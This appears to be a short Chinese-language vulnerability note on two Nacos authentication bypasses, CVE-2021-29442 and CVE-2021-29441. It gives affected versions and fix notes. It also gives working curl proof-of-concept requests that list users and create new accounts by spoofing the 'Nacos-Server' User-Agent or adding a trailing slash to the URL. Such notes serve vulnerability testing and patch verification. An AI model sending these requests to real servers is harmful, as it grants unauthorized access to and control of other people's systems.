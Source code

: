 所有server源码都在阿里网盘，请前往首页地址自行下载  

# cve-2021-29442
version <= 2.0.0-ALPHA.1
nacos鉴权的filter使用`User-Agent: Nacos-Server`可以绕过  
## 修复
version = 1.4.1 简单修复  
## poc
启动nacos
```text
cd nacos/bin
sh startup.sh -m standalone
```
获取用户列表
```text
curl XGET 'http://192.168.0.111:8848/nacos/v1/auth/users?pageNo=1&pageSize=9' -H 'User-Agent: Nacos-Server'
```
添加用户
```text
curl -XPOST 'http://192.168.0.111:8848/nacos/v1/auth/users?username=test&password=test' -H 'User-Agent: Nacos-Server'
```

# cve-2021-29441
version = 1.4.1 的简单修复继续绕过  
简单修复的情况下在url末尾添加/进行绕过
## 修复
version = 1.4.1 hotfix修复  

## poc
获取用户列表
```text
curl -X GET 'http://192.168.0.111:8848/nacos/v1/auth/users/?pageNo=1&pageSize=9'
```
添加用户
```text
curl -XPOST 'http://127.0.0.1:8848/nacos/v1/auth/users/?username=test1&password=test'
```
